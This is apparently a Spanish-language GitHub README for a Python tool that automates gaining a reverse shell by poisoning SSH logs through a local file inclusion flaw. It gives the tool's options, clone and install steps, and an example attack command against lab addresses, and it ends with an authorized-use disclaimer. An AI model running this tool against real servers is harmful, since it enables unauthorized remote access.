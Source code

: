 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **python** que nos permite obtener una **Reverse Shell** de manera automatizada gracias al envenenamiento de los logs relacionados con **SSH** como lo pueden ser el **auth.loh** o **btmp** a través de un **LFI** (Local File Inclusion).

Las opciones disponibles son las siguiente:

```
usage: autoposionSSH.py [-h] -u TARGET_URL -pm TARGET_PARAM -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php
  -pm, --target-param       TARGET_PARAM     Target parameter with LFI capability - ej: file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
   
  -p, --target-port         TARGET_PORT      Target http port                                                         (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                          (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                              (default = 4444)
```

---
## Download

```bash
git clone https://github.com/Trr0r/autopoisonSSH
```

```bash
pip3 install -r requirements.txt
```

---
## Use

```shell
python3 autopoisonSSH.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2
```


![Pasted image 20241226190954](https://github.com/user-attachments/assets/756a9fed-e7e5-4718-95a6-3975a1e77ca8)


---
### Advertencia legal

[!WARNING]

Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
